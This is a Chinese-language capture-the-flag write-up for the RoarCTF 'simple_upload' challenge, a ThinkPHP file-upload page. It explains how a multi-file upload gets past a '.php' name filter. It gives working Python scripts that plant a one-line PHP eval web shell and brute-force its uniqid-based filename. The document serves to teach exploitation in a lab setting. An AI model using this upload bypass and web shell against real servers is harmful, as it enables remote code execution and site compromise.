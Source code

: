 RoarCTF-simple_upload
==========

* tip：该题目在BUUCTF的题库里有环境复现：https://buuoj.cn

题目描述
-----

打开题目链接之后，看到如下代码<br>
```php
 <?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```
可以发现，该站是`ThinkPHP`写的一个文件上传网站。<br>

题目分析
-------

* 1、分析代码可知，该站可以通过`POST`方法实现上传文件功能，但是从第14行代码发现php后缀的文件被禁止上传，因此我们需要想办法绕过限制，上传`php小马`。<br><br>
* 2、该脚本通过`allowExts`方法设置上传类型，但是查阅资料得知这种使用方法是不对的，并不能限制上传的文件类型。<br><br>
* 3、upload()函数不传参时为多文件上传，整个`$_FILES`数组的文件都会上传保存，可以利用该属性通过一次访问上传多个文件。<br><br>
结合以上分析得知的内容可知，可以利用`$_FILES`数组上传多个文件来绕过对php的过滤。<br><br>

解题过程
-------

### 1、测试上传功能

首先编写python脚本向网站POST一个非php的文件，这里上传了一个`txt`文件，测试能否正常上传文件，下面是上传测试代码段：<br>
```python
url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello')}
r = requests.post(path, files=files)
print(r.text)
```
回显内容如下:<br>
```
{"url":"\/Public\/Uploads\/2019-10-24\/5db1841fb439d.txt","success":1}
```
能够成功上传文件。<br>
### 2、测试上传php文件：

```python
url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello'), "file1":("ma.php", '<?php eval($_GET["cmd"]);')}
r = requests.post(path, files=files)
```
回显内容如下：<br>
```
{"url":"\/Public\/Uploads\/2019-10-24\/5db18420027a3.txt","success":1}
{"url":"\/Public\/Uploads\/","success":1}
```
由回显可知，我们成功上传了php文件,但是并没有回显php的文件名<br>
* 其实在比赛做赛题的时候发现，直接上传php文件也是可以成功的，只不过也不会回显文件名。<br><br>
通过多次上传发现规律：新文件名是以`微秒`为单位转`十六进制`的字符串（后来在WP中了解到ThinkPHP中，文件名是通过`uniqid`函数生成的，`uniqid`函数是基于以微秒计的当前时间计算的）<br><br>
因此找到php的文件名，理论上就可以成功连接到我们上传的小马，而方法只有一个，那就是`爆破`。<br>

### 3、爆破php文件名

爆破代码如下：<br>
```python
import requests

url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello'), "file1":("ma.php", '<?php eval($_GET["cmd"]);')}
r = requests.post(path, files=files)
t1 = r.text.split("/")[-1].split(".")[0]
print (t1)

s = "1234567890abcdef"
for i in s:
    for j in s:
        for k in s:
            path = url + "/Public/Uploads/2019-10-24/" + t1[:-3] + "%s%s%s.php" % (i, j, k)
            r = requests.get(path, timeout=1)
            print(path)
            if r.status_code != 404:
                print(path)
                # print(r.text)
                break
```
由于我们是利用`$_FILES`数组的属性实现一次访问，上传两个文件，因此中间相隔的时间较短，利用以上单线程的爆破即可拿到php的文件名，然后常规操作连接小马拿flag。<br><br>
这里还有另一种方法是利用BP进行爆破，只需爆破文件名的后三个字符即可，其实原理是一样的，只是工具不同而已。<br><br>
  ![](./images/2.PNG)
 <br>
但是在BUUCTF的站上使用BP爆破时会回显`429 Too Many Requests (太多请求)`,同样如果用自己的多线程代码去爆破也会遇到这个问题，是网站为了限制客户端的请求数量的配置，没办法，只能用单线程。<br>

思考总结
-------

在比赛的时候，由于不了解代码中一次访问可以上传多个文件的漏洞，便采用了上传三次文件的方法（第一次上传txt，第二次传php小马，第三次再传txt，以此得到命名范围），这就导致第一次和第三次拿到的文件名范围比较广，爆破困难，当时自己写了个蹩脚的多线程，最终也没能成功爆破出文件名...<br>
赛后看了几个WP关键步骤还是在于爆破文件名，我采用的这种方法也有人成功拿到了flag...不过正解应该还是利用漏洞一次上传多个文件来爆破吧。
